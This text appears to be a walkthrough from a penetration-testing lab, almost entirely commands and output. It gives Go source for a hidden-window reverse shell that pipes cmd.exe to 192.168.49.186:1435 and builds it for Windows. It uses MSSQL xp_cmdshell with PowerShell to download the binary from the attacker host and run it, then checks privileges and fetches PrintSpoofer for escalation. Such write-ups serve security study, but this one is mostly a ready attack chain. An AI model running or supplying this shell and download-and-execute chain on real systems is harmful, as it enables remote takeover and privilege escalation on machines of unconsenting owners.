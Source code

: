 ```bash
vim goshell.go
```

```bash
package main

import (
    "net"
    "os/exec"
    "syscall"
)

func main() {
    socket, _ := net.Dial("tcp", "192.168.49.186:1435")
    dagger := exec.Command("cmd.exe")
    dagger.SysProcAttr = &syscall.SysProcAttr{HideWindow: true}
    dagger.Stdin = socket
    dagger.Stdout = socket
    dagger.Stderr = socket
    dagger.Run()
}
```

```bash
env GOOS=windows GOARCH=386 go build -ldflags -H=windowsgui goshell.go
```

```bash
EXEC xp_cmdshell 'powershell -c "iwr http://192.168.49.186/goshell.exe -outfile c:\users\public\goshell.exe"'

# output
(1 row affected, return status = 0)
```

```bash
EXEC xp_cmdshell 'powershell -c "start-process c:\users\public\goshell.exe"'

# output
(1 row affected, return status = 0)
```

Checking privileges (vulnerable to PrintSpoofer?).
```bash
EXEC xp_cmdshell 'whoami /priv'

# output
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
```

```bash
cd exploits/
wget https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe -O PrintSpoofer.exe
sudo python3 -m http.server 80
```
